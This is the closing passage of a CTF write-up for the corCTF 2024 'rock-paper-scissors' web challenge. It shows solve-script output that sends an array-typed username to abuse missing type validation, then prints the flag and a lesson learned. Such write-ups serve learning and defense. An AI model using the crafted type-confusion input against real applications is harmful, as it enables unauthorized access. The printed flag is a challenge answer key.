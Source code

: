 ```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors)-[2024.07.29|20:08:48(HKT)]
└> python3 solve.py
[*] Creating new username with body data: {'username': ['dummy_username', 1337, 'flag_username']}
[*] Losing the game intentionally...
[*] Creating new username with body data: {'username': 'flag_username'}
[*] Getting the flag...
[+] We got the flag: corctf{lizard_spock!_a8cd3ad8ee2cde42}
```

- **Flag: `corctf{lizard_spock!_a8cd3ad8ee2cde42}`**

## Conclusion

What we've learned:

1. Missing type validation